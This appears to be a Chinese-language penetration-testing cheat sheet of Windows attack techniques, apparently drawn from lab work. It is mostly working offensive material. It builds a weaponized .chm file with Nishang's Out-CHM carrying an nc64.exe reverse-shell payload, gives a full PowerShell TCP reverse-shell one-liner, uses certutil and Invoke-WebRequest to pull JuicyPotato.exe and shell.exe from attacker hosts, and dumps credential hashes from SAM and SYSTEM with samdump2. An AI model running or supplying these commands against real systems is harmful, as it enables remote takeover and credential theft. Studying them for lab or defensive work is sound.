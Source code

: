 ### 武器化.chm

Nishang 有一个工具 `Out-CHM` ，它可以制作武器化的 `.chm` 文件
/usr/share/nishang/Client/Out-CHM.ps1

添加命令在文件尾部
```powershell
Out-CHM -Payload "C:\programdata\nc64.exe -e cmd 10.10.14.29 7788" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```

在 Windows Powershell 中运行
安装 htmlhelp : https://www.helpandmanual.com/download/htmlhelp.exe
```powershell
. .\Out-CHM.ps1
```

修改文件名字后传给 kali ，再在靶机上下载到目录中，kali 建立7788监听

**rev.ps1**
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.50',2233);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


## 文件下载

[LOLBAS - Certutil.exe](https://lolbas-project.github.io/lolbas/Binaries/Certutil/) 

- certutil.exe
```bash
certutil.exe -urlcache -split -f http://10.10.16.8:8888/JuicyPotato.exe
```

- **Invoke-WevRequest**
```bash
iwr -uri http://x.x.x.x/xxx -OutFIle C:\programdata\xxx
Invoke-WebRequest "http://10.10.16.7:8888/shell.exe" -OutFile "shell.exe"
```

- MpCmdRun.exe


Windows 中的共享目录 ： **programdata**

## 敏感目录

- ##### Windows/System32/ 下的 **SAM** 和 **SYSTEM** ，可以提取用户凭据 hash
使用 **samdump2** 提取 HASH
```bash
└─$ sudo samdump2 SYSTEM SAM
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
格式为 ： **LMHash : NTLMHash**
